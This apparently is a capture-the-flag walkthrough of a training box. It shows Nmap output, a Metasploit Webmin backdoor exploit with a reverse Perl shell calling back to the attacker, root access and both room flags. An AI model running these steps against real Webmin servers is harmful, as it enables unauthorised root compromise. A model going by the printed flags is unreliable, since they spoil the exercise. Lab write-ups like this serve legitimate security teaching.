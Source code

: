 # Source

## Description

Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

# Initial Scan

We start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 10000 webmin

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Webmin

Let's take a look at the webmin page on port 10000:

<p align="center"><img src="./files/webpage.png"></p>

As you can see the webmin runs in SSL. We can try to login by gussing the username and password to pass the authentication page but let's not waste our time.

# Exploit

I searched for **"webmin"** in `msfconsole` and found several exploits:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Source]
└─$ msfconsole -q
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor


Interact with a module by name or index. For example info 5, use 5 or use exploit/linux/http/webmin_backdoor
~~~

Many of them require valid credentials, so I used `webmin_backdoor` exploit, which doesn't need credentials. Let's take a look at the options:

~~~
msf6 > use 5
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) > show options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki
                                         /Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                         n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
~~~

Now let's set the required variables and run the exploit:

~~~
msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.148.209
RHOSTS => 10.10.148.209
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_backdoor) > set lhost tun0
lhost => 10.9.1.25
msf6 exploit(linux/http/webmin_backdoor) > exploit
~~~

The exploit works, so I spawned a shell using `shell` command:

~~~
[*] Started reverse TCP handler on 10.9.1.25:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.1.25:4444 -> 10.10.148.209:53942) at 2021-10-17 04:47:36 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
~~~

## Root Shell

Now we have a root shell:
~~~
root@source:/usr/share/webmin# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

# User Flag

Now we can easily search for the flags. The user flag is in `/home/dark`:
~~~
root@source:/usr/share/webmin/# cd /home/dark
cd /home/dark
root@source:/home/dark# cat user.txt
cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
~~~

User flag: `THM{SUPPLY_CHAIN_COMPROMISE}`

# Root Flag

Now we navigate to `/root` and read the root flag;

~~~
root@source:/home/dark# cd /root
cd /root
root@source:~# cat root.txt
cat root.txt
THM{UPDATE_YOUR_INSTALL}
~~~

Root flag: `THM{UPDATE_YOUR_INSTALL}`

# D0N3!  ; )

Thanks to the creator(s)!

Hope you enjoyed this room and have a good one! : )